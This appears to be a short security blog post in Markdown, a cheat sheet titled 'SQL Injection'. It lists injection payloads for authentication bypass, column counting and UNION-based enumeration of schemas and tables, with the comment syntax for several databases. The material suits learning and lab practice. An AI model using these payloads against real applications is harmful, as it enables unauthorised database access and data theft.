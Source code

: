 ```yaml
---
layout: single
title: SQL Injection
excerpt: "Deep dive into SQL Injection."
date: 2022-11-26
classes: wide
header:
  teaser: /assets/images/aws-logo.png
  teaser_home_page: true
  icon: /assets/images/aws-logo.png
categories:
  - InfoSec
tags:  
  - SQLI
  - Cloud Computing
---
```

## General Injections
`' or 1=1-- -`
`'order by 7'`
`' union select NULL,NULL,NULL-- -`
`category=Pets' union select schema_name, NULL from information_schema.schemata-- -`: List DBs
`category=Pets' union select table_name, NULL from information_schema.tables where table_schema='public'-- -`: List tables


## Comments

Oracle 	    --comment

Microsoft 	--comment
            /*comment*/

PostgreSQL 	--comment
            /*comment*/

MySQL 	    #comment
            -- comment [Note the space after the double dash]

